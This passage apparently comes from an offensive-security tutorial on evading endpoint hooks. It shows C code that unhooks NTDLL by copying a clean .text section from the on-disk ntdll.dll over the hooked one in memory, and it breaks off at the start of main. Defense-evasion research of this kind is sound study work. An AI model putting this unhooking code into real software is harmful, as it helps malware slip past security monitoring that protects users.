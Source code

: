 ```C
}

```

The above C defines a function prototype for NtOpenProcess, gets a handle to NTDLL, resolves the address of NtOpenProcess and casts it with our prototype, and then calls it. If we compile and start the executable with Frida, we should see that it does indeed hook NtOpenProcess.

### Unhooking NTDLL

Now that we know our function is hooked, we can bypass it. We can do so using some code from [ired.team](https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++). If you have not already read through all of the material from ired.team, I would really recommend giving it a look.

```c
  typedef NTSTATUS(NTAPI* _NtOpenProcess) (
    PHANDLE            ProcessHandle,
    ACCESS_MASK        DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    CLIENT_ID* ClientId
    );

    void unhookNtdll() {
    HANDLE process = GetCurrentProcess();
    MODULEINFO mi;
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");

    GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

    for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            DWORD oldProtection = 0;
            boolean isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }

    CloseHandle(process);
    CloseHandle(ntdllFile);
    CloseHandle(ntdllMapping);
    FreeLibrary(ntdllModule);
}

void main(){
```
